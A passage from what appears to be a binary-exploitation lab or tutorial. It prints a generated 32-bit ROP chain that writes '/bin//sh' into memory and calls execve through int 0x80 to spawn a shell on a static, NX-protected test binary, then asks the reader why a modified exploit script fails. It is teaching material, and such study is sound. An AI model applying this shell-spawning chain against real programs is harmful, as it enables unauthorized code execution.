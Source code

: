```shell
rop = ''

rop += rebase_0(0x00073b46) # 0x080bbb46: pop eax; ret;
rop += '//bi'
rop += rebase_0(0x0002a99a) # 0x0807299a: pop edx; ret;
rop += rebase_0(0x000a6060)
rop += rebase_0(0x0000c95b) # 0x0805495b: mov dword ptr [edx], eax; ret;
rop += rebase_0(0x00073b46) # 0x080bbb46: pop eax; ret;
rop += 'n/sh'
rop += rebase_0(0x0002a99a) # 0x0807299a: pop edx; ret;
rop += rebase_0(0x000a6064)
rop += rebase_0(0x0000c95b) # 0x0805495b: mov dword ptr [edx], eax; ret;
rop += rebase_0(0x000036ca) # 0x0804b6ca: pop dword ptr [ecx]; ret;
rop += p(0x00000000)
rop += rebase_0(0x00073b46) # 0x080bbb46: pop eax; ret;
rop += p(0x00000000)
rop += rebase_0(0x0002a99a) # 0x0807299a: pop edx; ret;
rop += rebase_0(0x000a6068)
rop += rebase_0(0x0000c95b) # 0x0805495b: mov dword ptr [edx], eax; ret;
rop += rebase_0(0x000001d1) # 0x080481d1: pop ebx; ret;
rop += rebase_0(0x000a6060)
rop += rebase_0(0x0009afc9) # 0x080e2fc9: pop ecx; ret;
rop += rebase_0(0x000a6068)
rop += rebase_0(0x0002a99a) # 0x0807299a: pop edx; ret;
rop += rebase_0(0x000a6068)
rop += rebase_0(0x00073b46) # 0x080bbb46: pop eax; ret;
rop += p(0x0000000b)
rop += rebase_0(0x0002afa0) # 0x08072fa0: int 0x80; ret;
print rop
[INFO] rop chain generated!
```

However, using this payload in a [modified script][5] does not work. Can you
figure out why and fix it?

[1]: ./src/1_staticnx.c
[2]: ./build/1_staticnx
[3]: ./scripts/1_skeleton.py
[4]: ./scripts/2_ropexploit.py
[5]: ./scripts/3_brokenrop.py
[6]: http://syscalls.kernelgrok.com/

